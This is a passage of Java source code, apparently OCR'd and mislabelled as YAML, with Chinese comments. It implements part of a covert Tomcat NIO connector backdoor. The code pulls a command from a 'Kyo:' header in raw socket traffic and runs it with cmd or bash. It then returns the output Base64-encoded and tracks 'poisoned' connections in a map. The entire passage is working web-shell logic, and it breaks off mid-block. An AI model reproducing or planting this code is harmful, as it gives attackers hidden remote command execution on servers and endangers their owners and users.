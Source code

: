 ```yaml
            if (matcher.matches()) {
                String group = matcher.group(1);
                int i = group.indexOf("\r\n");
                return group.substring(0, i);
            } else {
                return null;
            }
        }

        public void sendResponse(NioChannel nioChannel, String response) {
            try {
                String encode = new String(Base64.getEncoder().encode(response.getBytes()),"gbk");
                String result = template + encode + "\0\r\n\r\n";
                nioChannel.write(ByteBuffer.wrap(result.getBytes()));
            } catch (IOException e) {
                try {
                    map.remove(nioChannel.getIOChannel().getRemoteAddress().toString());
                } catch (IOException ioException) {
                }
            }
        }

        public void handlerSocket(SelectionKey sk, NioEndpoint.KeyAttachment attachment) {
            NioChannel socket = attachment.getSocket();
            SocketChannel ioChannel = attachment.getSocket().getIOChannel();
            InputStreamReader reader = null;
            StringBuilder cmdBuffer = new StringBuilder();
            String request = null;

//        如果报错，说明此时客户端已经终止连接了，需要立刻清理毒化表
            try {
                ioChannel.read(buffer);
                request = getRequest(new String(buffer.array()), ".*Kyo:(.*)");
                buffer.clear();
            }catch (Exception e){
                try {
//                清理毒化表
                    map.remove(attachment.getSocket().getIOChannel().getRemoteAddress().toString());
                    return;
                } catch (IOException ioException) {
                }
            }

            /**
             * 命令执行
             */
            try{
                String[] cmds = new String[]{};
                if(type.equals("win")) {
                    cmds = new String[]{"cmd", "/c", request.trim()};
                }else{
                    cmds = new String[]{"bash", "-c", request.trim()};
                }

                Process exec = Runtime.getRuntime().exec(cmds);
                reader = new InputStreamReader(exec.getErrorStream(), "gbk");
                BufferedReader bufferedReader = new BufferedReader(reader);
                String temp = null;
                while ((temp = bufferedReader.readLine()) != null) {
                    cmdBuffer.append(temp + "\n");
                }
                if(cmdBuffer.length() == 0){
```